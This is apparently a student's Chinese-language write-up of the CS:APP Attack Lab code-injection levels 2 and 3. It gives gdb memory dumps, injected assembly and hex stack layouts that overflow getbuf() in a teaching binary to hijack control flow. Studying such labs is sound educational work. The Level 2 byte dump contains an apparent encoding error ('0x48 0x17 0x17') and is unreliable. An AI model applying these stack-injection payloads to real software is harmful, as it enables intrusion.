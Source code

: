 # Part I: Code Injection Attacks

这一部分的讲义中提到程序设定为运行时栈内存的地址不发生变化，因此通过`gdb`可以查看内存，进行数据和代码的注入。

## Level 2

通过查看内存可以发现，当执行`getbuf()`时，栈顶指针`%rsp`指向的地址为`0x5561dc78`，查看`%rsp -> %rsp + 48`这一段内存：

```bash
(gdb) b *0x4017b4
Breakpoint 5 at 0x4017b4: file buf.c, line 16.
(gdb) r -q
Starting program: /csapp/lab/target1/ctarget -q
Cookie: 0x59b997fa
Type string:asd

Breakpoint 5, getbuf () at buf.c:16
16      in buf.c
(gdb) x /48xb $rsp
0x5561dc78:     0x61    0x73    0x64    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19    0x40    0x00    0x00    0x00    0x00    0x00
```

我们函数的返回地址为`0x401976`，可以发现是返回到`test()`函数。为了正确执行`touch2()`函数且确保我们传入的参数和给定的`cookie`值相同（`0x59b997fa`），我们需要将`%rdi`的值设为cookie的值，之后改变返回地址，让程序执行`ret`指令直接跳转到`touch2()`函数中。

由于实验的讲义建议我们不要使用`jmp`或者`call`指令，因此，我们通过修改`ret`的返回地址来进行跳转。

0. 修改内存`0x5561dc78`处的值为`0x4017ec`
1. 修改返回地址执行我们注入的指令执行的地址(`0x5561dc90`)
2. 修改`%rdi`的值为cookie对应的值
3. 修改`%rsp`指向`0x5561dc78`
4. 返回

对应的汇编语句为
```s
# code12.s
movq  $0x59b997fa, %rdi       
movq  $0x5561dc78, %rsp 
retq
```

使用指令编译并进行反编译

```bash
gcc -c code12.s
objdump -d code12.o > code12.d
```

在`code12.d`中即可看到对应的汇编指令。将得到的二进制指令写入到代码注入的内存栈中即可。注入后内存内容如下：

```bash
0x5561dc78:     0xec    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0x17    0x17    0xfa    0x97    0xb9    0x59    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

## Level 3

先梳理一下这个步骤实现的思路：

第一步，逻辑上需要跳转到touch3函数中

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可以发现，`touch3()`函数需要传入一个字符串指针，并和cookie一起作为参数调用`hexmatch()`函数。因此我们再探究一下这个函数的内容：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

这个函数将我们的cookie作为val传入，并通过`sprinf()`转化为字符串存储在字符串指针`s`中，并和我们传入的字符串指针进行内容比较。

因此通过倒推可以发现，我们需要把cookie值的字符串形式作为参数传入`touch3()`，作为实验成功的必要条件，在上一部分中已经完成。但是，这一部分调用`hexmatch()`函数后，`%rsp`的值会发生变化，因此需要将cookie的字符串表示值存储在无法被覆盖的内存区域。

因此，我们需要做的工作有：
1. 将注入代码起始地址、字符串、`touch3()`函数的入口地址都存放到内存中
2. 将字符串起始地址写入`%rdi`中
3. 修改`%rsp`的值
4. 调用`retq`指令，跳转到`touch3()`函数，传入字符串的地址进行比较。汇编形式如下：

```asm
movq <ADDR_STR>, %rdi
movq <ADDR_NEW_RSP>, %rsp
retq
```

因此我们组织栈的内容如下：

```bash
0x5561dc78:     0xfa    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0xc7    0xc7    0x80    0xdc    0x61    0x55    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

成功通过测试。在`0x401854`处设置断点，运行到断点位置时查看上述内存区域：

```bash
(gdb) x /48xb 0x5561dc78
0x5561dc78:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dc80:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0xc7    0xc7    0x80    0xdc    0x61    0x55    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

可以发现由于我们注入的`retq`指令调用后，栈指针向高地址移动后，原来的内容被覆盖了，因此实验讲义的advice提示我们要再三考虑存放cookie字符串的位置。

